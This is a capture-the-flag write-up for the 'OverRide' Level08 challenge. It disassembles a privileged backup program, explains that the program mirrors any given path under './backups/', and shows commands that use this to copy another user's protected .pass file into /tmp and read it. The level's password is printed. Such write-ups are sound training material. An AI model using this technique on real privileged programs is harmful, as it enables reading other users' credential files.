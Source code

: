 # **Level08**

## **Binary Analysis**

The program requires exactly one command-line argument to read from it and create a backup of its content.

```nasm
NASMCollapse

; Check for correct number of arguments
0x0000000000400a22 <+50>:    cmpl   $0x2,-0x94(%rbp)  ; Compare argc with 2
0x0000000000400a29 <+57>:    je     0x400a4a <main+90>

; Important part: Opening input file
0x0000000000400ab3 <+195>:   mov    $0x400da9,%edx    ; "r" mode for fopen
0x0000000000400ab8 <+200>:   mov    -0xa0(%rbp),%rax  ; Get argv
0x0000000000400abf <+207>:   add    $0x8,%rax         ; argv[1]
0x0000000000400acc <+220>:   callq  0x4007c0 <fopen@plt>

; Creating backup path
0x0000000000400b09 <+281>:   mov    $0x400dab,%edx    ; "./backups/"
0x0000000000400b0e <+286>:   lea    -0x70(%rbp),%rax  ; Buffer for path
0x0000000000400b7d <+397>:   callq  0x400750 <strncat@plt>

; Opening backup file
0x0000000000400b98 <+424>:   callq  0x4007b0 <open@plt>

; Reading and writing loop
0x0000000000400bf5 <+517>:   callq  0x400760 <fgetc@plt>
0x0000000000400be6 <+502>:   callq  0x400700 <write@plt>

```

## **Vulnerability**

The main problem with this program is that it does not check the file path given by the user. It simply adds "./backups/" to the filename and keeps the same folder structure.

    This means:

        If we provide /home/users/level09/.pass as input:

        It will try to create the same directory structure inside "./backups/":

        ```bash
        ./backups/home/users/level09/.pass
        ```
        Since we can control where the backup is saved, we can trick the program into copying protected files to a place where we can read them.

## **Exploit**

The exploit strategy is to create a backup of the protected file '/home/users/level09/.pass' in '/tmp' where we have write permissions. Create mirror structure in /tmp

**Step 1: Prepare Environment**

```bash
# Go to /tmp where we have write permissions
cd /tmp

# Create required directory structure
mkdir -p backups/home/users/level09/
```

**Step 2: Execute Exploit**

```bash
# Run program with target file
~/level08 /home/users/level09/.pass
```

**Step 3: Extract Data**

```bash
BASH

# Read the backup file
cat /tmp/backups/home/users/level09/.pass
```

The final result:

```bash
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09/
level08@OverRide:/tmp$ ls
backups
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat /tmp/backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

## **Flag**

```
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```